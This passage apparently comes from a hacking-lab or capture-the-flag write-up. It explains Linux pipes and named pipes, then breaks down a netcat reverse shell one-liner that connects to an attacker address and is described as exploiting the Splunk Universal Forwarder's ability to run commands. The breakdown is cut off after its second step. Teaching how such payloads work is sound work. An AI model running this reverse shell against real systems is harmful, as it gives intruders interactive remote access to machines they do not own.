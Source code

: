 
### **How Does This Relate to the `|` Pipe in Linux?**

In Linux, we commonly use the **pipe (`|`) operator** to send the output of one command **into** another.

#### **Example: Using a Simple Pipe**

```bash
echo "hello" | cat
```

- **`echo "hello"`** outputs the text `"hello"`.
- **`|` (pipe operator)** takes that output and sends it as input to `cat`.
- **`cat` reads it and prints `"hello"` back**.

This is the **exact same concept** as what our named pipe does—**except our named pipe is persistent** instead of temporary.

#### **What’s the Problem With a Normal Pipe?**

A regular `|` works **once** and then **closes**:

```bash
echo "whoami" | /bin/sh
```

- Runs `whoami`, prints the output, **then exits**.
- No way to keep interacting with the shell.

To **fix this**, we create a **named pipe (FIFO)** that stays open, allowing continuous interaction—just like a **remote terminal**.

---

### **Breaking Down the Payload**

```bash
rm /tmp/0xjcbk_pipe; mkfifo /tmp/0xjcbk_pipe; cat /tmp/0xjcbk_pipe | /bin/sh -i 2>&1 | nc 10.10.14.38 1994 > /tmp/0xjcbk_pipe
```

This is a **reverse shell** payload that exploits Splunk Universal Forwarder’s ability to execute commands, allowing us to gain interactive access to the target machine.

#### **1. Remove any existing named pipe (FIFO) to avoid conflicts**

```bash
rm /tmp/0xjcbk_pipe
```

- **Why?** `mkfifo` fails if a file with the same name already exists.
- This ensures a clean setup before we create a new pipe.

#### **2. Create a new named pipe (`mkfifo`)**

```bash
mkfifo /tmp/0xjcbk_pipe
```
